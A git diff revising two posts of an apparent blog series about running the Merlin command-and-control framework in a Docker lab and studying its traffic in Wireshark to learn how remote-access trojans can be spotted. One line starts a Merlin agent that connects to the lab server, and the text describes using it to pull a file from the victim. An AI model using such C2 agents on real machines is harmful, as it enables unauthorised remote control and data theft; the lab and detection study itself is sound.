

update

diff --git a/posts/seventhpost.md b/posts/seventhpost.md
@@ -17,9 +17,9 @@ First, let's configure the merlin server. Go to the Attacker and open Merlin (re
 
 ![merlin http setup](/img/remote/merlin-config.png)
 
-Looks good! Let's start it.
+Looks good! But let's wait before starting it.
 
-Start up our Reverse Proxy and let's get on to our Victim. You should open two terminals, one for capturing and the other for connecting.
+Start up our Reverse Proxy (remember to adjust IP addresses if you're using docker over a couple of sessions) and let's get on to our Victim. You should open two terminals, one for capturing and the other for connecting.
 Start up the capture:
 
 ``` bash
@@ -32,14 +32,15 @@ And in the other terminal let's start the agent. The address that we pass leads 
 ./merlinAgent-Linux-x64 -url https://172.17.0.4/merlin -psk 'merlin' -v
 ```
 
-We can already see a couple dozen packages just from the connection. If we wait we can see that each check-in from the agent generates another dozen packages.
-Before we get a thousand of idle message packages, let's give our agent something to do. In Merlin type in `interact` and let TAB completion fill out agent ID. Next let's see what files our Victim with `ls`. We can see the `hello.txt` file we put on the Victim earlier. Let's download it back.
+Let the Agent try to connect to the server a couple of times, simulating a real life scenario, before going to the attacker and starting up our Listener.
+We can already see rush of packages just from the connection. If we wait we can see that each new idle check-in from the agent generates another dozen packages.
+Before we get a thousand of message packages, let's give our agent something to do. In Merlin type in `interact` and let TAB completion fill out agent ID. Next let's see what files our Victim with `ls`. We can see the `hello.txt` file we put on the Victim earlier. Let's download it back.
 
 ![download hello](/img/remote/merlin-job.png)
 
 ![agent job](/img/remote/agent-job.png)
 
-Now let's stop the packet capture with `CTRL + C` as well as the agent and Merlin. Let's transfer the capture from the container to our Desktop, like before:
+Now let's stop stop our agent from the server by typing `exit` and when it does let's stop the packet capture in another window with a `CTRL + C`. Let's transfer the capture from the container to our Desktop, like before:
 
 ``` bash
 docker cp edf2ed59c20d:/my_capture.pcap C:\Users\User\Desktop\my_capture.pcap
@@ -49,29 +50,20 @@ Open the file with WireShark and let's see what we captured.
 
 ![packet capture](/img/remote/packet-capture.png)
 
-This is a whole lot of packets and seemingly unreadable information, and this isn't a tutorial about reading WireShark output, but we can get some snippets of information out of them.
+This is a whole lot of packets of seemingly unreadable information, and this isn't a tutorial about reading WireShark output, but we can get some snippets of information out of them because we built this setup.
 
+We can already see the IP address where the communication came from the Victim - *172.17.0.2*, and went to the attacker, or rather the reverse-proxy - *172.17.0.3*.
+Next we can see the MAC address - *02:42:ac:11:00:04*.
 
+![ip and mac address](/img/remote/ip-and-mac.png)
 
+If we click on the packet where Info says "Server Hello, Certificate..." we can glance at the certificate the server showed during a handshake. Navigate all the way through the tabs until you see the issuer of the certificate.
 
+![path to certificate issuer](/img/remote/certificate.png)
 
+We can see the nonsense I've typed in during the certificate creation for the reverse-proxy. Inside a browser we'd get a warning that a site uses a self-signed certificate (and we had to use `-k` flag to ignore it when using `curl` command). But without a console there is no warning and so our machine continued sending and receiving packets from the dubious source.
+Self signed certificates can be easy to spot and verify, once you get a suspicion.
 
+![closeup on self-signed-certificate](/img/remote/self-signed-cert.png)
 
-
-
-
-
-
-
-
-
-
-
-
-
-
-
-// one connection http straight to merlin
-// one and half doesnt work http through proxy dunno why
-// second connection http2 straight to merlin
-// third connection http2 through proxy to merlin
+RAT's can be very hard to spot since they don't use up your machine's resources so they don't slow it down, and usually don't show up on Task Manegers or are named such that they seem legitimate.

diff --git a/posts/eigthpost.md b/posts/eigthpost.md
@@ -1,19 +1,18 @@
 ---
-title: Ideas
+title: Last words.
 description: Draft
 layout: layouts/post.njk
 order: 8
-tags: 
+tags: posts
 ---
 
-For our second scenario let's use HTTPS to connect Victim directly to the Attacker.
+There are specialistic tools that look for traces RAT leaves, but they can't catch every RAT out there. To be able to detect anomalous traffic by just looking at your packet capture, you'd first have to know very well how normal traffic looks like, so it's very hard to do it this way. There are a variaty of techniques you can use to separate malicious traffic from your usual one and investigate it even further.
+I'll be trying just that on another blog where I'll be tackling the [Carnage TryHackMe room](https://tryhackme.com/room/c2carnage)!
 
-Start the capture.
+If you read all the way very big thank you to you, if you tried to follow my intstructions I hope they weren't too convoluted!
 
-Connect with the agent to merlin server.
+Making this project took a lot of time and sweat and though it may seem like a lot of work for little payoff, the real gain is what we've learned along the way and researching, solving hundreds of roadblocks, tinkering and putting it all together taught me a lot!
 
-We can see it's connected on both ends as well as some packets that were exchanged.
-
-Let's send a command through merlin, a simple `ls`.
-
-After we receive it let's pause packet capture with CTRL + C. And let's stop the agent and server for now too.
+Again, big 
+# thanks
+for reading, and check out my Carnage walkthrough!
